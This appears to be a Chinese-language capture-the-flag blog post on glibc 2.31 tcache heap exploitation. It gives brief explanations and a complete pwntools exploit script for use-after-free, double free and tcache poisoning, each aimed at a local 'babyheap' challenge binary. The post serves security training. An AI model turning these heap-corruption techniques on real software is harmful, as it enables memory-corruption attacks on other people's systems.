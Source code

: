 ```yaml
---
layout: post
tags: [pwn]
title: "glibc2.31 利用手法"
author: wsxk
date: 2025-3-1
comments: true
---
```


- [1. tcache](#1-tcache)
  - [1.1 uaf(use after free)](#11-uafuse-after-free)
  - [1.2 double free](#12-double-free)
  - [1.3 tcache poisoning](#13-tcache-poisoning)

# 1. tcache<br>
tcachebin的大小在0x20~0x408之间。<br>
## 1.1 uaf(use after free)<br>
常用的 tcache uaf是指，**分配一个内存A，由ptr指向；释放后ptr并没有置空；此时分配内存时再利用又分配了内存A，往其中写入机密信息；此时可皆由ptr来读出机密信息**<br>
```python
from pwn import *
context.os = 'linux'
context.arch = 'amd64'
context.log_level = 'debug'

binary_path = "./babyheap_level2.1"
libc_path = "./libc.so.6"

p = process(binary_path)


def malloc(size):
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"malloc")
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free():
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"free")
    return

def read_flag():
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"read_flag")
    return

def puts():
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"puts")
    return

read_flag()
p.recvuntil(b"[*] flag_buffer = ")
chunk_addr1 = int(p.recvline().strip(b"\n"),16)
log.success(f"chunk_size:{hex(chunk_addr1)}")
read_flag()
p.recvuntil(b"[*] flag_buffer = ")
chunk_addr2 = int(p.recvline().strip(b"\n"),16)
log.success(f"chunk_size:{hex(chunk_addr2)}")

chunk_size = chunk_addr2 - chunk_addr1 -0x10
malloc(chunk_size)
free()
read_flag()
puts()#uaf

p.interactive()
```

## 1.2 double free<br>
tcache double free要想成功实施，**首先需要有一个uaf漏洞，让你在释放内存A后，仍然可以往A写内容，改变其第8~16字节的值。**<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

binary_path = "./babyheap_level4.1"
libc_path = "./libc.so.6"

p = process(binary_path)

def malloc(size):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"malloc")
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free():
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"free")
    return

def read_flag():
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"read_flag")
    return

def puts():
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"puts")
    return

def scanf(string):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/read_flag/quit): ")
    p.sendline(b"scanf")
    # p.recvuntil(b"allocations")
    p.sendline(string)
    return

malloc(0x2FA)
free()
scanf(b"a"*16) # uaf
free() # double free
read_flag()
puts()
p.interactive()
```
## 1.3 tcache poisoning<br>
tcache poisoning 的核心思想是 **改变tcache bin中的链表结构，比如 a->b，修改后变为a->c**<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

binary_path = "./babyheap_level7.0"
libc_path = "./libc.so.6"

p = process(binary_path,env={"LD_PRELOAD":libc_path})

def malloc(idx,size):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"malloc")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free(idx):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"free")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    return

def puts(idx):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"puts")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    return

def scanf(idx,content):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"scanf")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.sendline(content)
    return 

def send_flag(secret):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"send_flag")
    p.recvuntil(b"Secret: ")
    p.sendline(secret)
    return

malloc(0,0x20)
malloc(1,0x20)
free(0) 
free(1)   # 1-> 0 
scanf(1,p64(0x425A51)) # uaf to achieve tcache_poisoning, now 1 -> 0x425a51
malloc(2,0x20)
malloc(3,0x20)
puts(3)
p.recvuntil(b"Data: ")
secret = p.recv(8)
log.info(f"secret: {secret}")
send_flag(secret+b"\x00"*8)  # malloc will cause chunk->key = 0

p.interactive()
```



<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>

